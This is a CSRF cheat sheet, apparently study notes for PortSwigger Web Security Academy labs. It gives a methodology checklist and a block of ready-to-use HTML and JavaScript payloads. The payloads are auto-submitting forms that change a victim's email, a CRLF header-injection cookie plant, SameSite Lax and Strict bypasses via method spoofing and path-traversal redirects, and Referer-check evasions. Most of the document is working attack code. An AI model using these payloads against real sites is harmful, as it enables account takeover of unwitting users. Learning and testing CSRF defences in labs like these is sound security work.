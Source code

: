 # CSRF - CHEATSHEET + LABS

## Key Terms

```
- Engagment tools -> Generate CSRF PoC (Burp Professional)
- SameSite: 
	-> Lax (default depends browser) -> only GET
	-> Strict -> only same site requests
	-> None -> secure flag required (https)
	
- \r\n -> %0d %0a
- Method spoofing -> search engine, e.g> _method=POST , @method('POST'), method=POST etc
```

## Walkthrough - Most Important Labs


- [CSRF bypassing SameSite=Strict restriction via redirect + path traversal + CSRF](CSRF-bypass-SameSite-Strict-via-redirect-path-traversal.md)

- [CSRF bypassing SameSite=Lax via method spoofing](CSRF-bypass-SameSite-Lax-via-method-spoofing.md)

- [CSRF via Header Injection in Duplicated Cookie (SameSite-Strict bypass via client-side redirect)](CSRF-via-Header-Injection-SameSite-Strict-client-side-redirect.md)


## Metodology

```bash
- Try switch POST to GET
- Remove csrf token
- Token not tied to account -> Try valid (our) csrf token
- Cookie ->
    > csrf token + username/email
    > try duplicate cookie %0d %0a + Header Injection
- Same cookie work in differents subdomains
- No same-site? -> after 2 mins same-site = lax
- Same-Site = strict? -> search redirect 
- Try remove Refered header
  ```

![CSRF-MAP-CASES](/04-Screenshots/CSRF-map.png)


#### Cheat Sheet

```html

// CSRF NO DEFENSES  / TRY WITH GET INSTEAD POST
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF TOKEN NO TIED COOKIE SESSION
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF + Header injection - csrf token tied to csrfKey
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<img src="https://<IP>/?search=test%0d%0aSet-Cookie:%20csrfKey=<CSRF-KEY-MATCH>%3b%20SameSite=None" onerror="document.forms[0].submit()">
//
// SAME-SITE LAX (DEFAULT) + METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
//
// SAMESITE STRICT BYPASS VIA CLIENT-SIDE REDIRECT
<script>
    location="<IP>/post/comment/confirmation?postId=../../my-account/change-email?email=pwnd@pwned.com%26submit=1"
</script>
//
// CSRF where Referer validation depends on header being present (add this to normal csrf to remove Refered header)
<meta name="referrer" content="no-referrer">
//
// CSRF with broken Referer validation
Referrer-Policy: unsafe-url (http header)

<form class="login-form" name="change-email-form" action="https://<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
   history.pushState("", "", "/?0ad0008e0432189380d1444800d90040.web-security-academy.net/")
    document.forms[0].submit();
</script>

// METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```


